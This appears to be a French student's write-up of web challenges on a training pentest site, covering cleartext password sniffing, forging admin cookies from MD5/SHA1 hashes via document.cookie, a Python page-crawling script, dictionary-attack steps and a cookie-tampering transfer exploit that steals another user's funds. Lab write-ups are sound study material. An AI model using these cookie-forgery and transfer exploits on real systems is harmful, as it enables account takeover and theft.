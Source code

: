 # Site web :
    - nom de domaine : pentest-isima.fr
    - ip :  178.62.12.176

## Accès:
    - ajouter la ligne suivante dans /etc/hosts
`178.62.12.176 pentest-isima.fr`

Devient accessible à partir du navigateur à l'adresse pentest-isima.fr

## Sous domaine:
    - http://pentest-isima.fr/Epreuves_Web/
    - http://pentest-isima.fr/SQLI_101.php
    - http://pentest-isima.fr/SQLI_102.php
    - http://pentest-isima.fr/index.php

### epreuve 1:

Simplement jouer avec le HTML du form

### epreuve 2:

    - admin
    - MAoAfyhGNmk= 
Script qui chiffre à retirer. HTTP => ce que l'on lit usr le reseau est ce qui passe il nous suffit donc d'utiliser ce mot de passe

### epreuve 3:

On souhaite ici devenir administateur et on dispose d'un compte pour cela.

après s'être connecté, une session est crée et on regarde les cookies:
>'user=f4a77acf03e969bbb2b99fee35d137fb; d=0b20cd7f98fde6a0c65a6ff68ffdfb627f32d176; PHPSESSID=njtp7hklo0r916q486jacfksb5'

avec https://www.dcode.fr/identification-chiffrement on recherche le type de chiffrement.

On s'aperçoit que:

- MD5: F4A77ACF03E969BBB2B99FEE35D137FB => 'Franck' 
- SHA1: 0b20cd7f98fde6a0c65a6ff68ffdfb627f32d176 => 'Utilisateur'

On va donc se servir de ces informations pour pouvoir envoyer des cookies personnalisé


#### Fonction JS setcookie:

- document.cookie = "NOM_COOKIE=VALEUR"

MD5: admin => 21232f297a57a5a743894a0e4a801fc3 <br/>
SHA1: admin => d033e22ae348aeb5660fc2140aec35850c4da997<br/>
SHA1: Administrateur =>1d8141b215f74524ddb3a4a21d55cc9c2141bd0c <br/>


### epreuve 4:

Le but est de recherché une clé sur l'une des 200 pages du site.
On remarque que le contenu que change sur chaque page est simplement ce qu'il y a dans la div de class "post". On va donc enregistrer le contenu de la div dans un fichier et voir où est-ce qu'il y aura du contenu.

```python
import requests 
from bs4 import BeautifulSoup

i = 0
f = open("res2.txt", "w")

while i < 200:
    i += 1
    url = "http://pentest-isima.fr/Epreuves_Web/epreuve4/index.php?page="+ str(i)
     # on regarde la nouvelle page
    response = requests.get(url)
    soup = BeautifulSoup(response.content, 'html.parser')
    div = soup.find_all("div", class_="post")
    f.write(f"page n°{i}\n" + str(div) + "\n")
```

La clé se trouve sur la page 184: 

- `Vous avez trouvez la bonne page. Votre clef est : A2dfT3BBn2e`

### epreuve 5:

Ici on doit réaliser une attaque par dictionnaire.<br/>
Les étapes sont les suivantes:
- Analyser le formulaire, notamment les input et la destination
- Récupérer un dictionnaire
- Envoyer des requetes à la destination avec des mots de passe différents contenue dans notre dictionnaire.
- Si erreur dans la reponse alors on continue, sinon on a trouvé


### index.php

Il y a ici un problème du au formulaire de type get mais aussi au stockage des cookies.

Après connexion avec un on enregistre un numéro de session et un username dans les cookie. Celui-ci est utilisé dans la page transfert.php pour savoir qui donne de l'argent. De cette manière on peut prendre l'argent du compte de n'importe qui en modifiant le cookie

Connexion:
>admin admin-

Changement de cookie:
> document.cookie = "user=alice"

Envoie d'argent:
> http://pentest-isima.fr/transfert.php?username=user&gold=10000

On vient de voler 10000 à alice pour les donner à user.

L'utilisateur n'a d'ailleur pas besoin d'exister
>document.cookie = "username=ghregre" <br/>
>http://pentest-isima.fr/transfert.php?username=user&gold=10000

